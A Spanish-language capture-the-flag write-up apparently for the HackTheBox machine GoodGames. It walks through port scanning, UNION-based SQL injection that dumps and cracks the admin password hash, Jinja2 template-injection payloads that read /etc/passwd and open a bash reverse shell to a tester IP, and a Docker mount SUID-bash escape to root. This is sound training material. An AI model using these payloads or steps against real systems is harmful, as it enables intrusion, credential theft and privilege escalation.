

Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.11.130
Host is up, received user-set (0.31s latency).
Scanned at 2024-06-09 19:55:19 -03 for 17s
Not shown: 62795 closed tcp ports (reset), 2739 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
80/tcp open http syn-ack ttl 63
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p80 10.10.11.130
Host is up (0.28s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.51
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb
Notamos que se está utilizando Virtual Hosting, por lo que cargamos el registro goodgames.htb a nuestro /etc/hosts
Vamos a realizar fuzzing para intentar encontrar directorios ocultos.
gobuster dir -u http://goodgames.htb -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 --exclude-lenght 9265
El sitio nos permite registrarnos, por lo que vamos a hacerlo:
Intrusión - SQLi manual
Nos conectamos con las credenciales del usuario que acabams de crear. Al momento de loguearnos, capturamos la request con Burpsuite. Vemos que obtenemos un 200 OK y se están tramitando los parámetros email y password:
Dentro de la respuesta, también vemos un mensaje de Welcome aimhoff. Si probamos agregar una comilla luego de nuestro email, continuamos teniendo un 200 OK.
Ahora, lo volvemos a modificar y agregamos ' OR 1=1-- -';. Obtenemos un 200 OK y vemos que el mensaje que nos muestra ahora es Welcome adminaimhoff:
Siendo vulnerable a un SQL Injection, lo primero que haremos será ver la cantidad de columnas que tiene la tabla que se está consultando.
email=aimhoff@test.com' order by 4-- -;&password=Password123
Iremos jugando con el ORDER BY hasta que no obtengamos errores. En este caso, con 4 no da error (con 5 ya si), por lo que la tabla tiene 4 columnas:
Saber esto es importante, ya que ahora concatenaremos consultas utlizando UNION SELECT (las consultas que hagamos dentro del UNION SELECT, deben tener la misma cantidad de columnas que el primer SELECT). Obtendremos la base de datos en uso haciendo la siguiente consulta:
email=' union select 1,2,3,database()-- -;&password=Password123

Ahora, listaremos todas las bases de datos que existen:
email=' union select 1,2,3,group_concat(schema_name) from information_schema.schemata-- -&password=Password123
Hay dos, main y information_schema:
Listamos las tablas de la base de datos main:
email=' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='main'-- -&password=Password123
Existen tres, blog, blog_comments, user:
Listando las columnas de la tabla user:
email=' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_schema='main' and table_name='user'-- -&password=Password123
Tiene cuatro columnas: email, id, name y password:
Listando los campos email y password de la tabla users:
email=' union select 1,2,3,group_concat(email,':',password) from user-- -&password=Password123
Obtenemos los siguientes datos:
admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec
aimhoff@test.com:42f749ade7f9e195bf475f37a44cafcb
El hash está en MD5, vamos a intentar obtenerlo utilizando John the Ripper y el diccionario rockyou:
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Probamos acceder y tenemos éxito:
Intrusión - SQLMap
Utilizando SQLMap podemos llegar al mismo resultado. Nos guardamos la primera request que obtuvimos a través de Burpsuite y seguimos este orden para ir dumpeando lo que nos interesa:
sqlmap -r request.req -p email --batch
sqlmap -r request.req -p email --batch -D main --tables
sqlmap -r request.req -p email --batch -D main -T user --columns
sqlmap -r request.req -p email --batch -D main -T user -C email,password --dump
Server-Side Template Injection (SSTI)
Continuando, vemos que al ser admin, tenemos acceso también a un panel de administración. Nos logueamos con las mismas credenciales:
Nos dirigimos a Settings e intentamos modificar el Full Name. Vemos que es vulnerable a Server-Side Template Inection (SSTI), ya que si ponemos {{7*7}} realiza la operación matemática y en el output muestra 49:
Para seguir, vamos a utilizar el siguiente recurso de PayloadsAllTheThings. Intentaremos leer un archivo local de la máquina. Probamos las distintas opciones que nos ofrece el repositorio y nos funciona esta:
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
Si utilizamos la siguiente instrucción, podemos ejecutar comandos. En este caso, el comando id:
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
Reverse Shell
Al tener RCE, nos entablamos una Reverse Shell ejecutando lo siguiente:
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.13/443 0>&1"').read() }}
Primero hacemos un tratamiento de la TTY. Luego, desde aquí, podemos ver la primer flag:
Escalación de privilegios
Notamos que estamos dentro de un contenedor de Docker. Si hacemos un ifconfig, vemos que la IP del contenedor es la 172.19.0.2:
Asimismo, si listamos el /etc/passwd, vemos que el usuario augustus no existe en el contenedor. Esto nos da la idea de que puede existir en la máquina anfitriona, y que el directorio /home/augustus es una montura. Es decir, lo que se ponga en la máquina host en el directorio /home/augustus, se reflejará en contenedor.
Por lo general, la IP 172.19.0.1 corresponde a la IP de la máquina que está alojando el contenedor. Vamos a ver qué puertos tiene abiertos utilizando el siguiente bucle en bash:
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port abierto" ; done 2>/dev/null
Tiene abiertos el 22 y el 80.
Intentamos conectarnos vía SSH a la IP 172.19.0.1. Primero probamos con el usuario root y la contraseña que tenemos, pero no podemos. Por lo tanto, vamos a probar con el usuario augustus y la misma contraseña, y ahora si podemos entrar:
Para escalar privilegios, lo que vamos a hacer es, primero, en la máquina anfitriona, copiar el binario de bash al directorio /home/augustus:
Luego, volvemos al contenedor, y como aquí somos root, vamos a cambiarle el propietario al binario y asignarle permisos SUID:
Volvemos a la PC anfitriona con el usuario augustus, y como ahora el binario bash se puede ejecutar como si fuésemos el propietario, lo corremos con ./bash -p

En este punto somos root y ahora si podemos ver la flag restante:
Este es el problema de tener monturas en Docker.